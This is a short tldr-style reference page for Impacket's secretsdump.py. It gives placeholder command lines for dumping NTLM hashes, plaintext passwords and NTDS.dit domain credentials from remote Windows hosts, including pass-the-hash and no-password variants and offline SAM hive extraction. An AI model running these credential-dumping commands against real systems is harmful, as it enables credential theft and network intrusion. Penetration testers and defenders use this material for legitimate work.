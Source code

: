 ```yaml
---
title: "Dump NTLM Hashes - Secretsdump.py Windows Credentials | Free DevTools"
name: secretsdump.py
path: /freedevtools/tldr/common/secretsdump.py
canonical: "https://hexmos.com/freedevtools/tldr/common/secretsdump.py/"
description: "Dump NTLM hashes with secretsdump.py, extracting Windows credentials and Active Directory information. Free online tool, no registration required for credential recovery."
category: common
keywords:
- NTLM Hash Dumper
- Windows Credential Extraction
- Active Directory Dump
- SAM Database Extraction
- Pass-the-Hash Attack
- Windows Password Recovery
- Domain Credential Dump
- Credential Dumping Impacket
- secretsdump.py Usage
- Windows Security Tool
features:
- Extracts NTLM hashes from Windows systems remotely
- Dumps plaintext passwords from domain controllers
- Retrieves credentials from Active Directory's NTDS.dit file
- Extracts hashes from local SAM databases
- Supports pass-the-hash authentication
ogImage: "https://hexmos.com/freedevtools/t/tool-banners/json-utilities-banner.png"
twitterImage: "https://hexmos.com/freedevtools/t/tool-banners/json-utilities-banner.png"
---
```


# secretsdump.py

> Dump NTLM hashes, plaintext passwords, and domain credentials from remote Windows systems.
> Part of the Impacket suite.
> More information: <https://github.com/fortra/impacket>.

- Dump credentials from a Windows machine using a username and password:

`secretsdump.py {{domain}}/{{username}}:{{password}}@{{target}}`

- Dump hashes from a machine using pass-the-hash authentication:

`secretsdump.py -hashes {{LM_Hash}}:{{NT_Hash}} {{domain}}/{{username}}@{{target}}`

- Dump credentials from Active Directory's NTDS.dit file:

`secretsdump.py -just-dc {{domain}}/{{username}}:{{password}}@{{target}}`

- Extract credentials from a local SAM database using registry hives:

`secretsdump.py -sam {{path/to/SAM}} -system {{path/to/SYSTEM}}`

- Dump hashes from a machine without providing a password (if a valid authentication session exists, e.g. via Kerberos or NTLM SSO):

`secretsdump.py -no-pass {{domain}}/{{username}}@{{target}}`
